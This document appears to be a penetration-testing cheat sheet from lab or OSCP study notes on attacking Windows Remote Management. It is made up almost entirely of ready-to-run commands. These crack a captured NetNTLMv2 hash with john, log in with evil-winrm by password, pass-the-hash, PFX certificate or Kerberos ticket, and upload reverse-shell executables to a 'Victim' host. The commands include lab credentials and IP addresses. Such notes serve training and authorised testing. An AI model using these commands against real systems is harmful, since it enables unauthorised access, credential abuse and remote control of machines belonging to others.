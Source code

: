 # (5985) WinRM

<details>

<summary>Uses</summary>

* Remotely communicate and interface with hosts

- Execute commands remotely on systems that are not local to you but are network accessible

* Monitor, manage and configure servers, operating systems and client machines from a remote location

</details>

<details>

<summary>Cracking NetNTLMv2 hashes for login</summary>

```bash
echo "Administrator::DESKTOPH3OF232:1122334455667788:7E0A87A2CCB487AD9B76C7B0AEAEE133:0101000000000000005F3214B534D
801F0E8BB688484C96C0000000002000800420044004F00320001001E00570049004E002D004E0048004500
3800440049003400410053004300510004003400570049004E002D004E00480045003800440049003400410
05300430051002E00420044004F0032002E004C004F00430041004C0003001400420044004F0032002E004C
004F00430041004C0005001400420044004F0032002E004C004F00430041004C0007000800005F3214B534D
801060004000200000008003000300000000000000001000000002000000C2FAF941D04DCECC6A7691EA926
30A77E073056DA8C3F356D47C324C6D6D16F0A0010000000000000000000000000000000000009002000630
06900660073002F00310030002E00310030002E00310034002E00320035000000000000000000" >
hash.txt
```

```
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

</details>

<details>

<summary>Evil-winrm for login</summary>

* Using password:

```bash
evil-winrm -i 10.129.136.91 -u administrator -p badminton
```

* Using hash:

```bash
evil-winrm -i 10.11.1.21 -u pete -H 0f951bc4fdc5dfcd148161420b9c6207
```

* Uploading files to Victim

```bash
upload reverse_139.exe
```

</details>

<details>

<summary>Upload/Download files (Evil-Winrm)</summary>

### Download (have to put full file paths)

```bash
download c:\temp\20230511182430_BloodHound.zip /oscp/ad/20230511182430_BloodHound.zip
```

### Upload (doesn't need full file paths)

```bash
upload reverse.exe
```

</details>

<details>

<summary>Enter-PSSession</summary>

```powershell
$cred = New-Object System.Management.Automation.PSCredential ("cowmotors\svc_web", $password)

$session = Enter-PSSession -computername "WEB02" -credential $cred

$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist "cowmotors.com\svc_web",$passwd
```

</details>

<details>

<summary>Login via PFX File</summary>

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out publicCert.pem
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv-key.pem -nodes

# Since port 5986 (WinRM with SSL) is open instead of 5985 (WinRM):
evil-winrm -i 10.10.11.152 -c publicCert.pem -k priv-key.pem -S
```

</details>

<details>

<summary>Evil-WinRM Kerberos Login</summary>

Edit /etc/krb5.conf

```bash
[libdefaults]
        default_realm = SCRM.LOCAL

[realms]
SCRM.LOCAL = {
        kdc = dc1.scrm.local
}

[domain_realm]
        .scrm.local = SCRM.LOCAL
        scrm.local = SCRM.LOCAL
```

Create ticket for MiscSvc:

```bash
impacket-getTGT scrm.local/MiscSvc:ScrambledEggs9900
```

Login via evil-winrm

```bash
export KRB5CCNAME=MiscSvc.ccache
sudo rdate -n 10.10.11.168

evil-winrm -r scrm.local -i dc1.scrm.local
```



\----OR----

```
[libdefaults]
    default_realm = ABSOLUTE.HTB
    kdc_timesync = 1
    ccache_type = 4
    forwardable = true
    proxiable = true
    fcc-mit-ticketflags = true
[realms]
    ABSOLUTE.HTB = {
        kdc = dc.absolute.htb
        admin_server = dc.absolute.htb
        default_domain = absolute.htb
    }
```

```
kinit <username>
```

```
evil-winrm -i dc.absolute.htb -r ABSOLUTE.HTB
```

</details>
